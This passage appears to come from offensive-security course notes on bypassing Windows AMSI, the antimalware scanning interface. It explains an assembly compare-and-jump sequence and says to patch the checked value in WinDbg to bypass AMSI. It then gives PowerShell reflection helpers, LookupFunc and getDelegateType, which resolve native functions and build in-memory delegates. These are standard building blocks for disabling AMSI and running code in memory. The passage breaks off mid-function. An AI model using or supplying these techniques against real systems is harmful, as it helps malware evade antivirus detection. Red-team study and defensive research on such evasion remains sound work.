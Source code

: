### Example

```assembly
mov rcx, rsi         ; Assume rsi points to a structure
cmp qword ptr [rcx+8], 0  ; Compare the 64-bit value at offset 8 from rcx with 0
je value_is_zero     ; Jump to value_is_zero if the value is zero
jne value_is_nonzero ; Jump to value_is_nonzero if the value is non-zero

value_is_zero:
    ; Code to execute if the value at [rcx + 8] is zero
    ...

value_is_nonzero:
    ; Code to execute if the value at [rcx + 8] is non-zero
    ...
```

In this example:
- The `mov rcx, rsi` instruction sets up the `rcx` register to point to a structure or memory block.
- The `cmp qword ptr [rcx+8], 0` instruction checks whether the 64-bit value located at the address `rcx + 8` is zero.
- The `je` (jump if equal) instruction will jump to the `value_is_zero` label if the value at `[rcx + 8]` is zero.
- The `jne` (jump if not equal) instruction will jump to the `value_is_nonzero` label if the value at `[rcx + 8]` is non-zero.

Change `rcx+8` to `0` to bypass AMSI in Windbg

![](Images/07-Bypassing-AMSI-Windbg-OpenSession.png)


#### 7.4.2.1

```powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')
```